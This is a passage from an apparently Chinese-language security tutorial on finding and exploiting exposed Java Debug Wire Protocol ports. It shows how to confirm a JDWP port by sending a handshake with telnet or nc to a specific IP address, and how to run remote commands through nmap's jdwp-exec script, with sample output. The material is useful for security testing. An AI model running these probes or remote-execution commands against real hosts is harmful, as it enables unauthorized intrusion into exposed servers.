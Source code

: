 上面是dev机器上开启的端口， `Java Debug Wire Protocol (Reference Implementation) `就是开启了`JDWP`的机器。

## 二次确认

>telnet端口后，输入命令JDWP-Handshake
如果返回JDWP-Handshake，证明存在漏洞。

可以用下面的命令测试：

```bash
➜  jdwp-shellifier (master|✔) { echo "JDWP-Handshake"; sleep 20 } | telnet 221.221.221.221 10010
Trying 221.221.221.221...
Connected to izbp16k6k2yv9vvh6c3v65zi.
Escape character is '^]'.
JDWP-Handshake
```

或者使用`nc`

```bash
➜  jdwp-shellifier (master|✔) { echo "JDWP-Handshake"; sleep 1 | trap exit INT} | nc 221.221.221.221 10010
JDWP-Handshake
```



# 漏洞利用实战

## 确定debug的端口

通过`nmap`确定debug的端口：

```bash
18694/tcp open     jdwp           Java Debug Wire Protocol (Reference Implementation) 
```

## nmap执行命令

[jdwp-exec NSE Script](https://nmap.org/nsedoc/scripts/jdwp-exec.html)

[jdwp-info NSE Script](https://nmap.org/nsedoc/scripts/jdwp-info.html)

[jdwp-inject NSE Script](https://nmap.org/nsedoc/scripts/jdwp-inject.html)



>这种方式没有实验成功，有兴趣的同学可以试一试

- Example Usage

```
nmap -sT <target> -p <port> --script=+jdwp-exec --script-args cmd="date"
```

- Script Output

```
PORT     STATE SERVICE REASON
2010/tcp open  search  syn-ack
| jdwp-exec:
|   date output:
|   Sat Aug 11 15:27:21 Central European Daylight Time 2012
|_
```
